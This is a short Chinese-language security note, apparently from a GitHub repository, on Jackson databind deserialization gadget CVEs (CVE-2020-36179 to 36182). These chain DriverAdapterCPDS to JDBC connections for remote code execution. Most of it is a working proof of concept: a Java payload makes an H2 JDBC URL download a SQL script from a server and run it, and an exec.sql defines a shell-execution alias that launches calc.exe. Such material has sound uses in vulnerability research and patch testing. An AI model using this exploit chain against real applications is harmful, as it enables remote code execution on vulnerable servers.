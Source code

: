 ### 常见Jackson的Exception
- https://www.baeldung.com/jackson-exception

### 多个CVE(SSRF to RCE)
- CVE-2020-36179：`oadd.org.apache.commons.dbcp.cpdsadapter.DriverAdapterCPDS`
- CVE-2020-36180：`org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS`
- CVE-2020-36181：`org.apache.tomcat.dbcp.dbcp.cpdsadapter.DriverAdapterCPDS`
- CVE-2020-36182：`org.apache.tomcat.dbcp.dbcp2.cpdsadapter.DriverAdapterCPDS`

Ref: 
- https://github.com/Al1ex/CVE-2020-36179
- https://www.leadroyal.cn/p/594/
- https://github.com/threedr3am/learnjavabug/tree/master/jackson/src/main/java/com/threedr3am/bug/jackson/rce


原理差不多，
```
DriverAdapterCPDS
    ->seturl
        ->getPooledConnection
            ->DirverManager.getConnection(this.url,username,pass)
```

### PoC
```java
import com.fasterxml.jackson.databind.ObjectMapper;
import com.fasterxml.jackson.databind.SerializationFeature;


public class POC {
    public static void main(String[] args) throws Exception {
        String payload = "[\"org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS\",{\"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:3333/exec.sql'\"}]";
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        mapper.configure(SerializationFeature.FAIL_ON_EMPTY_BEANS, false);
        Object obj = mapper.readValue(payload, Object.class);
        mapper.writeValueAsString(obj);
    }
}
```

#### exec.sql
```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('calc.exe')
```
